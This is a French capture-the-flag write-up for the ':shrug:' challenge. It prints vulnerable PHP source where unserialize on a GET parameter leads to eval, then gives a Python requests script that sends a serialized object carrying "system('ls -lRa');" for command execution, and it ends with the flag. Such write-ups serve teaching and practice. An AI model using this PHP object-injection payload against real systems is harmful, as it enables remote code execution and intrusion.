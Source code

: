 # :shrug: - 20 pts

> http://shrug.interiut.ctf/

La page a la bonne idée de nous donner son code source :

```php
 <?php
// ¯\_(ツ)_/¯

highlight_file(__FILE__);

class Boussole {
    public $order;

    public function __construct() {
        if(isset($_POST['b_order'])) {
            $this -> order = $_POST['b_order'];
        } else {
            $this -> order = "eau";
        }
    }

    public function __wakeup() {
        echo $this -> kevin($this -> order);
    }

    public function kevin($order) {
        $drinks = ["eau", "moscow_mule", "dark_n_stormy", "mojito", "sex_on_the_beach", "duchesse"];
        if(in_array($order, $drinks)) {
            return "Votre " . $order . " est en préparation.";
        } else {
            eval($order);
        }
    }
}

$a = $_GET['dio'];
$b = $_GET['jotaro'];
$c = $_POST['stand'];

if(isset($a) && isset($b) && isset($c)) {
    if($c == "Hermit Purple") {
        unserialize($_GET['dio']);
    }
}
```

Drôle de code... Si l'on envoie les paramètres `dio` en GET, `jotaro` en GET et `stand` en POST et que `stand` est égal à `Hermit Purple` alors le contenu de `dio` est désérialisé !

Je me dis que quitte à avoir le code, autant le copie sur mon propre serveur en mettant des `echo` partout et en activant les warnings pour gagner du temps. Je lance également le code dans une console PHP interactive :

```php
php> $b = new Boussole;
php> echo serialize($b);
O:8:"Boussole":1:{s:5:"order";s:3:"eau";}
```

Comme on le voit dans le code de la page, si la boisson n'est pas dans la liste alors on fait un `eval` dessus. Voici le code Python pour exécuter une commande shell :

```python
import requests
from urllib.parse import quote_plus

payload = "system('ls -lRa');"
serial = quote_plus('O:8:"Boussole":1:{s:5:"order";s:'+str(len(payload))+':"'+payload+'";}')

r = requests.post(f"http://shrug.interiut.ctf/?dio={serial}&jotaro=b", data={'stand':'Hermit Purple', 'b_order':"1"})

print(r.content.decode())
```

On obtient la liste des fichiers et l'on voit un fichier au nom étrange que l'on peut lire directement dans le navigateur : http://shrug.interiut.ctf/b0e4c25d3de6860f7a396a8148a42fda.txt

```
H2G2{Uns3rial1z4tiOn_iS_eAsY_r1ght?}
```

